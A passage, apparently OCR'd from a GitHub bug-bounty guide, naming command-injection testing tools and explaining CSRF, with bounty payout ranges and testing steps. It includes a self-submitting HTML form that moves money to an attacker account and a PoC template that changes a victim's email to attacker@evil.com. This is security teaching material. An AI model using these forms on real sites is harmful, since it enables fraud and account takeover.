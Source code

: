 ### Testing Tools:
- commix - Command injection exploiter
- tplmap - Template injection scanner
- Custom payloads with Burp Suite

---

3. Cross-Site Request Forgery (CSRF)

### What is CSRF?
Forces authenticated users to execute unwanted actions on a web application where they're authenticated.

### How it Works:
1. Victim is logged into vulnerable site
2. Attacker tricks victim into visiting malicious page
3. Malicious page sends request to vulnerable site
4. Request executes with victim's credentials
### Targets:
Active Sessions
### Example Attack:
```html
<!-- Malicious HTML that transfers money -->
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker_account">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

### Bug Bounty Impact:
- **Medium to High severity**
- Common in: State-changing operations (password change, money transfer, account settings)
- **Payout range**: $100-$2,000+

### How to Test:
1. Find state-changing requests (POST, PUT, DELETE)
2. Remove CSRF tokens if present
3. Create proof-of-concept HTML page
4. Test if action executes without proper verification

### CSRF PoC Template:
```html
<html>
<body>
  <form action="https://target.com/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="submit" value="Click me">
  </form>
</body>
</html>
```

---